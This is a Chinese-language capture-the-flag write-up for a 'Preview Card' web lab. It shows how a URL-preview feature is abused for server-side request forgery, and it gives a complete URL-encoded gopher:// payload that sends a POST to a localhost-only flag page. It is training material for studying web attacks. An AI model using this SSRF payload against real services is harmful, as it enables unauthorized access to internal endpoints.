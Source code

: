 # LAB - Preview Card
###### tags: `資安` `Web`

## 題目解析
進入網頁可以看到有 Web Preview 跟 FLAG 的連結，點 FLAG 是沒辦法直接拿到 FLAG 的，會顯示 local host only！另外 Web Preview 則是可以瀏覽輸入網址的網頁內容。

![](https://i.imgur.com/y9keaMw.png)

## 解題流程
透過 Web Preview 我們就可以藉由定向的方式輸入 http://127.0.0.1/flag.php 用 local 端查看 flag.php 的 source code，可以看到有一個 input tag，預設是 no，改成 yes 按下 submmit 發出挾帶 {givemeflag=yes} 這個 form-data 的 POST 請求，應該就可以拿到 FLAG 了。

![](https://i.imgur.com/QoIIqxh.png)


但 flag.php 一定要從 local 去訪問，因此我們就可以透過 gopher 協議建構 HTTP 封包去發送 POST 請求。

為了建構出完整 HTTP 封包，我們可以用 nc 跟 curl 的收發來得到完整的 HTTP request，就不用手動打。

![](https://i.imgur.com/DQr43ja.png)

將過 URL encode 後按照 gopher 的規定建構封包就可以拿到 FLAG 了！

```
gopher://127.0.0.1:80/_POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%3A9000%0D%0AUser-Agent%3A%20curl%2F7.74.0%0D%0AAccept%3A%20%2A%2F%2A%0D%0AContent-Length%3A%2014%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0A%0D%0Agivemeflag%3Dyes%0D%0A
```

## FLAG 截圖
![](https://i.imgur.com/jDVqOhT.png)

